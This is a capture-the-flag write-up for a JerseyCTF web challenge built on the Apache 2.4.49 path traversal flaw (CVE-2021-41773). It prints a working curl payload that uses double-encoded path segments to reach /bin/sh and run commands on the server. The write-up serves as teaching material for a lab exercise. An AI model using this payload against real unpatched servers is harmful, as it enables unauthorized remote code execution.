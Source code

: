 # JerseyCTF IV 2024 Write Up

URL: https://ctf.jerseyctf.com/

<br>

## Require-all-denied

Web Exploitation

Based on: [CVE-2021-41773](https://github.com/thehackersbrain/CVE-2021-41773)




### Description

We found this control panel on the Internet. It seems to be broken. Can you find out more information?

[Access Here!](http://54.160.214.145:1337/)

Developed by: [Noah Jacobson](https://github.com/noahajac)



### Enumeration


![image](https://hackmd.io/_uploads/SyDdifXo0.png)

On the main page, there is nothing interesting but the url seems a bit odd.

> [http://54.160.214.145:1337/cgi-bin/index/](http://54.160.214.145:1337/cgi-bin/index/)

Looks like the server is using apache. Try search the version by look at web header.

![image](https://hackmd.io/_uploads/B1Ql2Gmi0.png)

<br>

:notebook_with_decorative_cover: Take a Note

* [ ] Server: Apache/2.4.49 (Debian)
* [ ] Can't access route "**/cgi-bin**" and gave forbidden (**405**) but can access other  route like "**/cgi-bin/travel"** and "**/cgi-bin/status**"
* [ ] Possible LFI
* [ ] Try search the server vulnerability with keyword "**apache 2.4.49 exploit**"

<br>

### Exploit

#### Apache 2.4.49 Exploit

From here, I know that the vulnerabilities lies on path traversal (LFI) and could lead to RCE.

> [https://blog.intelliroot.com/2023/06/path-traversal-and-remote-code.html](https://blog.intelliroot.com/2023/06/path-traversal-and-remote-code.html)

Found payload from the blog above using:

```bash
curl 'http://localhost:1234/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type:text/plain; echo; whoami'
```


where the basic idea is to back from previous path using ( **../** ). In the payload, using double encoding to avoid being detected/find a way so the code will work:

* ../ will be .%2e (**%2e** is url encoding equal **.**)
* .%2e will be .%%32%65 (**%32** equal **2** and **%65** equal **e**)


![image](https://hackmd.io/_uploads/rkw0hzmoC.png)
go to ../bin/sh to run a shell with given payload on the body

![image](https://hackmd.io/_uploads/rytgAzXs0.png)
got it. 



:::success
jctf{plz\_p4tch\_y0ur\_s3rv3rs}
:::

---

